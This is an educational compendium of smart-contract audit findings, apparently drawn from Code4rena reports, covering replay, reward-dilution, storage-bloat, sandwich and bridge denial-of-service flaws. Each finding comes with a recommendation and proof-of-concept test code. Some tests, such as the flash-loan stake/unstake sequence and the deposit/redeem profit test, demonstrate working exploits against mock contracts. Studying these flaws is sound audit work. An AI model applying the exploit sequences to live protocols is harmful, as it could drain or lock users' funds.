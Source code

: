 # ETAAcademy-Adudit: 1. Dos

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DOS</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>dos</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] EIP-155 is not enforced, allowing attackers/malicious operators to profit from replaying transactions

### Absence of enforcement of EIP-155

- Summary: Attackers and malicious operators profit from replaying transactions due to the absence of enforcement of **`EIP-155`**, which prevents replay attacks by including the chain ID in the transaction's signature.

- Impact & Recommendation: Attackers can replay transactions from networks not protected by EIP-155, while operators can replay early user transactions from other EVM networks to collect gas fees or profit directly.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-05-eip-155-is-not-enforced-allowing-attackersmalicious-operators-to-profit-from-replaying-transactions) & [Report](https://github.com/code-423n4/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

                  let should_check_chain_id = if matches!(
                    common_data.transaction_type,
                    TransactionType::LegacyTransaction
                ) && common_data.extract_chain_id().is_some()
                {
                    U256([1, 0, 0, 0])
                } else {
                    U256::zero()
                };
    pub fn extract_chain_id(&self) -> Option<u64> {
        let bytes = self.input_data()?;
        let chain_id = match bytes.first() {
            Some(x) if *x >= 0x80 => {
                let rlp = Rlp::new(bytes);
                let v = rlp.val_at(6).ok()?;
                PackedEthSignature::unpack_v(v).ok()?.1?
            }

  ```

  </details>

## 2. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### ProfitManagers in different markets

- Summary: In GuildToken.sol, setting profitManager in the constructor causes problems as different markets have different ProfitManagers. Calling `notifyPnL()` with negative values from other term types triggers `notifyGaugeLoss()`, leading to reverts because the caller differs from the constructor-set ProfitManager.

- Impact & Recommendation: In GuildToken.sol, ProfitManager should be dynamically called to accommodate different ProfitManagers for each market.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testNotifyPnLCannotBeCalledWithNegative() public {
        // Show that for the initial gUSDC term there is no problem.
        credit.mint(address(profitManager), 10);
        profitManager.notifyPnL(term, -1);
        creditWETH.mint(address(profitManagerWETH), 10);
        vm.expectRevert("UNAUTHORIZED");
        profitManagerWETH.notifyPnL(termWETH, -1);
    }

  ```

  </details>

## 3. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### Staking and unstaking in the same block

- Summary: A borrower initiates a loan with the minimum amount in a term without mandatory partial repayment and transfers the funds to `EXPLOITER` after interest accrual. `EXPLOITER` then utilizes a flash loan to stake the amount into the same term via SurplusGuildMinter, repays the original loan, triggering `notifyPnL()`, which reduces rewards for other Guild holders by updating the `_gaugeProfitIndex`. Finally, `EXPLOITER` unstakes and returns the flash loan.

- Impact & Recommendation: To prevent attackers from instantly accumulating rewards without being long-term stakeholders like others in the system, several protective measures can be implemented. These include disallowing staking and unstaking in the same block, introducing staking/unstaking fees, or implementing a "warm-up period" during which stakers are unable to accumulate interest.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract DeflateGuildHoldersRewardsUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private ALICE = makeAddr("alice");
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        Core private core;
        ProfitManager private profitManagerUSDC;
        CreditToken gUSDC;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManagerUSDC));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(termUSDC, "termUSDC");
        }
        function testGuildHoldersRewardsWithoutEXPLOITER() public {
            // 3 users borrow gUSDC and stake them into the gUSDC term
            // In reality there may be more users, but for testing purposes, three are sufficient.
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gUSDC.mint(address(profitManagerUSDC), interest);
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("------------------------------BEFORE ATTACK------------------------------");
            console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        function testGuildHoldersRewardsAfterEXPLOITER() public {
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

            console.log("-------------------------------AFTER ATTACK-------------------------------");
            console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
            // EXPLOITER gets a flashloan.
            gUSDC.mint(EXPLOITER, 10_000_000e18);
            console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 10_000_000e18);
            sgmUSDC.stake(termUSDC, 10_000_000e18);
            console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

            sgmUSDC.getRewards(EXPLOITER, termUSDC);
            console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
            console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
            //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termUSDC, 10_000_000e18);
            vm.stopPrank();
            console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));
            // NOTE: EXPLOITER repays the flash loan here.
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
        function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
            uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
            uint256 YEAR = 31557600;
            interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
        }
    }

  ```

  </details>

## 4. [Medium] An attacker can bloat the Pink runtime storage with zero costs

### Bloat attack by dust accounts

- Summary: The Pink runtime's low Existential Deposit (ED) enables attackers to bloat storage with minimal cost by creating many low-balance accounts. This increases storage costs and fees for all users, posing a significant problem.

- Impact & Recommendation: Consider using a reasonable Existential Deposit. I recommend at least one CENTS (i.e. 1_000_000_000). When an account falls below the ED, it's removed from storage, resetting the nonce.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-phala-network#m-02-an-attacker-can-bloat-the-pink-runtime-storage-with-zero-costs) & [Report](https://code4rena.com/reports/2024-03-phala-network)

  <details><summary>POC</summary>

  ```rust
    -    pub const ExistentialDeposit: Balance = 1;
    +    pub const ExistentialDeposit: Balance = 1 * CENTS;

  ```

  </details>

## 5. [High] Users can get immediate profit when deposit and redeem in PerpetualAtlanticVaultLP

### Calculates shares before updating the total collateral

- Summary: When a user deposits assets, the function calculates shares before updating the total collateral. This creates an opportunity for users to exploit the difference in calculations and gain immediate profits by depositing and redeeming in the same block, potentially leading to sandwich and MEV attacks.

- Impact & Recommendation: Move  `perpetualAtlanticVault.updateFunding`  before  `previewDeposit`  is calculated.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-05-users-can-get-immediate-profit-when-deposit-and-redeem-in-perpetualatlanticvaultlp) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testSandwichProvideFunding() public {
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        skip(86400 * 7);
        vault.addToContractWhitelist(address(rdpxV2Core));
        vault.updateFundingPaymentPointer();
        // test funding succesfully
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 15e6;
        // calculate funding is done properly
        vault.calculateFunding(strikes);
        uint256 funding = vault.totalFundingForEpoch(
            vault.latestFundingPaymentPointer()
        );
        // send funding to rdpxV2Core and call sync
        weth.transfer(address(rdpxV2Core), funding);
        rdpxV2Core.sync();
        rdpxV2Core.provideFunding();
        skip(86400 * 6);
        uint256 balanceBefore = weth.balanceOf(address(this));
        console.log("balance of eth before deposit and redeem:");
        console.log(balanceBefore);
        weth.approve(address(vaultLp), type(uint256).max);
        uint256 shares = vaultLp.deposit(1e18, address(this));
        vaultLp.redeem(shares, address(this), address(this));
        uint256 balanceAfter = weth.balanceOf(address(this));
        console.log("balance after deposit and redeem:");
        console.log(balanceAfter);
        console.log("immediate profit :");
        console.log(balanceAfter - balanceBefore);
    }

  ```

  </details>

## 6. [Medium] asdRouter.sol is at risk of DOS due to vulnerable implementation of NOTE address

### Hardcoding address

- Summary: The documentation advises using `CToken.underlying()` to ensure the correct NOTE token address. However, the current implementation in `asdRouter.sol` sets the noteAddress only at contract deployment, effectively hardcoding it. This poses a vulnerability as the `noteAddress` is used directly for swaps from asdUSDC to NOTE, instead of dynamically retrieving it via CToken.underlying(). Therefore, if the NOTE address changes, the `swap` and `lzcompose` functionalities will be vulnerable to denial-of-service attacks.

- Impact & Recommendation: use `CNote.underlying()` instead of hardcoding.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-canto#m-01-asdroutersol-is-at-risk-of-dos-due-to-vulnerable-implementation-of-note-address) & [Report](https://code4rena.com/reports/2024-03-canto)

  <details><summary>POC</summary>

  ```solidity
  //contracts/asd/asdRouter.sol
        constructor(address _noteAddress, uint32 _cantoLzEID, address _crocSwapAddress, address _crocImpactAddress, address _asdUSDCAddress) {
            //@audit No method to change noteAddress after deployment.
    |>      noteAddress = _noteAddress;
            cantoLzEID = _cantoLzEID;
            crocSwapAddress = _crocSwapAddress;
            crocImpactAddress = _crocImpactAddress;
            asdUSDC = _asdUSDCAddress;
        }

        //contracts/asd/asdRouter.sol
        function _swapOFTForNote(address _oftAddress, uint _amount, uint _minAmountNote) internal returns (uint, bool) {
    ...
            if (_oftAddress < noteAddress) {
                baseToken = _oftAddress;
    |>          quoteToken = noteAddress;
            } else {
    |>          baseToken = noteAddress;
                quoteToken = _oftAddress;
            }
    ...

  ```

  </details>

## 7. [Medium] The time available for a canceled withdrawal should not impact future unstaking processes

### Canceled withdrawal affects future unstaking processes

- Summary: When stakers attempt to unstake their StRSR, they cannot withdraw RSR immediately; instead, their withdrawal enters a queue and becomes available after an unstaking delay period. If a withdrawal is canceled, the RSR is restaked, but the canceled withdrawal still impacts future requests. For example, if a user cancels a withdrawal during a long unstaking delay, subsequent withdrawal requests might still be affected by the canceled request, making them available later than expected.

- Impact & Recommendation: This situation could lead to funds being locked for longer than intended and create a denial-of-service (DoS) issue for users. The logic for determining the availability of withdrawals should not consider canceled withdrawals. Specifically, the code should ensure that if a user cancels a withdrawal, it does not impact the availableAt time for new withdrawals.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-07-reserve#m-06-The-time-available-for-a-canceled-withdrawal-should-not-impact-future-unstaking-processes) & [Report](https://code4rena.com/reports/2024-07-reserve)

  <details><summary>POC</summary>

  ```solidity

      describe('PushDraft Test', () => {
      it('Should use current unstakingDelay', async () => {
        // old unstakingDelay is 1 day
        const oldUnstakingDelay = 3600 * 24
        await stRSR.connect(owner).setUnstakingDelay(oldUnstakingDelay)
        const amount: BigNumber = bn('100e18')
        await rsr.connect(addr1).approve(stRSR.address, amount)
        await stRSR.connect(addr1).stake(amount)

        const draftEra = 1
        const availableAtOfFirst = await getLatestBlockTimestamp() + oldUnstakingDelay + 1
        /**
         * Unstaking request enter a queue, and withdrawal become available 1 day later
         */
        await expect(stRSR.connect(addr1).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(0, draftEra, addr1.address, amount, amount, availableAtOfFirst)

        /**
         * Cancel the unstaking to eliminate any pending withdrawals
         */
        await stRSR.connect(addr1).cancelUnstake(1)

        // new unstakingDelay is 1 hour
        const newUnstakingDelay = 3600
        await stRSR.connect(owner).setUnstakingDelay(newUnstakingDelay)

        await rsr.connect(addr2).approve(stRSR.address, amount)
        await stRSR.connect(addr2).stake(amount)

        const availableAtOfFirstOfUser2 = await getLatestBlockTimestamp() + newUnstakingDelay + 1
        /**
         * Unstaking request enter a queue, and withdrawal become available 1 hour later for a second user
         */
        await expect(stRSR.connect(addr2).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(0, draftEra, addr2.address, amount, amount, availableAtOfFirstOfUser2)

        /**
         * Although the first unstaking was canceled, its available time still impacts subsequent unstaking requests
         */
        await expect(stRSR.connect(addr1).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(1, draftEra, addr1.address, amount, amount, availableAtOfFirst)
      })
    })

  ```

  </details>

## 8. [High] Can block bridge or limit the bridgeable amount by initializing the ITSHub balance of the original chain

### Stop token bridging

- Summary: Attackers can block token bridging or limit the amount that can be bridged by manipulating the ITSHub balance on the original chain. The ITSHub tracks the token balances only on destination chains, not the original chain. This is because minting permissions are often registered on the original chain, making balance tracking complicated. However, attackers can initialize the original chain's balance to 0, which triggers an underflow error during token transfer, preventing tokens from being bridged out. In the InterchainTokenFactory,deployRemoteInterchainToken function, there is no check to prevent a token from being deployed back to the original chain, allowing attackers to deploy tokens from a remote chain to the original chain, causing the original chain's ITSHub balance to be initialized as zero. The ability to initialize the original chain’s balance to zero can stop token bridging or limit the amount that can be bridged. The issue is especially critical for canonical tokens, as attackers can prevent these tokens from being bridged out of the original chain, effectively locking the token in the original chain.

- Impact & Recommendation: While this issue does not involve stealing funds, it results in a DoS scenario, especially impacting canonical tokens. To prevent remote deployment requests to the original chain, `InterchainTokenFactory.deployRemoteInterchainToken` and `InterchainTokenFactory.deployRemoteCanonicalInterchainToken` should include checks to ensure that the destination chain is not the same as the original chain. When deploying directly through `InterchainTokenService.deployInterchainToken`, it's not possible to perform this check, so the original chain’s information should be stored for each tokenId in ITSHub. This will ensure that the balance of the original chain is not initialized, preventing issues related to balance manipulation and denial of service.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-axelar-network#h-02-can-block-bridge-or-limit-the-bridgeable-amount-by-initializing-the-itshub-balance-of-the-original-chain) & [Report](https://code4rena.com/reports/2024-08-axelar-network)

<details><summary>POC</summary>

```rust

  fn apply_balance_tracking(
    storage: &mut dyn Storage,
    source_chain: ChainName,
    destination_chain: ChainName,
    message: &ItsMessage,
  ) -> Result<(), Error> {

    match message {
        ItsMessage::InterchainTransfer {
            token_id, amount, ..
        } => {

                // Update the balance on the source chain
                update_token_balance(
                                storage,
                                token_id.clone(),
                                source_chain.clone(),
                                *amount,
                                false,
                            )
                .change_context_lazy(|| Error::BalanceUpdateFailed(source_chain, token_id.clone()))?;
                            // Update the balance on the destination chain

                update_token_balance(
                                storage,
                                token_id.clone(),
                                destination_chain.clone(),
                                *amount,
                                true,
                            )
                .change_context_lazy(|| {
                                Error::BalanceUpdateFailed(destination_chain, token_id.clone())
                            })?
            }

            // Start balance tracking for the token on the destination chain when a token deployment is seen
            // No invariants can be assumed on the source since the token might pre-exist on the source chain
            ItsMessage::DeployInterchainToken { token_id, .. } => {

                start_token_balance(storage, token_id.clone(), destination_chain.clone(), true)
                                .change_context(Error::InvalidStoreAccess)?
            }
            ...

        };

    Ok(())

}

```

</details>
